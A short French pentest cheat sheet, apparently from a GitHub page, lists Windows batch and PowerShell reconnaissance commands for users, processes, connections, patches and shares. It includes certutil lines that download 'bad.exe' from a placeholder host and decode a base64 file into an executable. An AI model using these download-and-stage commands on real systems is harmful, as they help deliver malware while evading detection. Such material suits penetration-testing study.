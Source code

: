 <h2>Batch</h2>
<i>systeminfo</i> → Obtenir des renseignements sur le système</br>
<i>net users [username]</i> → Obtenir des renseignements sur les utilisateurs</br>
<i>tasklist</i> → Lister les processus</br>
<i>netstat -ano</i> → Liste des connexions tcp</br>
<i>dir sysprep /s /b</i> → Trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
<i>wmic qfe list</i> → Lister les patch installés (KB)</br>
<i>certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe</i> → wget en batch</br>
<i>certutil.exe -decode bad.txt bad.exe</i> → base64 decode en cmd</br>

<h2>Powershell</h2>
get-WmiObject -class Win32_Share
